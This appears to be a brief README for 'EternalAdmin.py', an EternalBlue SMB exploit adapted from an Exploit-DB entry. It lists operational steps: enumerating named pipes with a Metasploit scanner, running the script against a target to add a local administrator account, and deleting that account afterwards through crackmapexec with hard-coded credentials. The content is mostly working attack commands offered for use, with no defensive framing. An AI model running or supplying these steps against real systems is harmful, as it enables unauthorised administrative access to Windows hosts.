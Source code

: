 Eternal blue exploit tweaked from https://www.exploit-db.com/exploits/42315

1. Enumerate pipes
```
msfconsole 
auxiliary/scanner/smb/pipe_auditor
```

2. Edit the 4 blank variables at the beginning of the exploit code 

3. Run to a add new local admin account
```
python2.7 ./EternalAdmin.py [target] [pipe]
```

4. Remove created local admin once finished
```
crackmapexec smb 192.168.4.29  -u 'z'  -p 'x' --local-auth -x "net user /delete z"
```
